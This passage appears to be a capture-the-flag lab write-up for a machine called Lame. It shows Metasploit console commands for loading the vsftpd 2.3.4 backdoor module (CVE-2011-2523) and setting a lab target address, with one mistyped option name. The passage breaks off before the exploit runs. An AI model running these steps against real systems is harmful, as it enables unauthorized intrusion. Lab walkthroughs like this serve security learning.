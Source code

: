 This Vulnerability was assigned a [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) so lets exploit with metasploit.

We the launch metasploit console 

###### code 

```sh
msfconsole
```

Then we select the `vsftpd_234_backdoor` and select relevant parameters;

###### code

```sh
search ftp 2.3.4
use 0
options 
set RHOTS 10.10.10.3
```

###### output

![metasploitftplame](/Linux/Linux-Easy/Lame/Screenshots/metasploitftplame.png)

![rhostlame](/Linux/Linux-Easy/Lame/Screenshots/rhostlame.png)
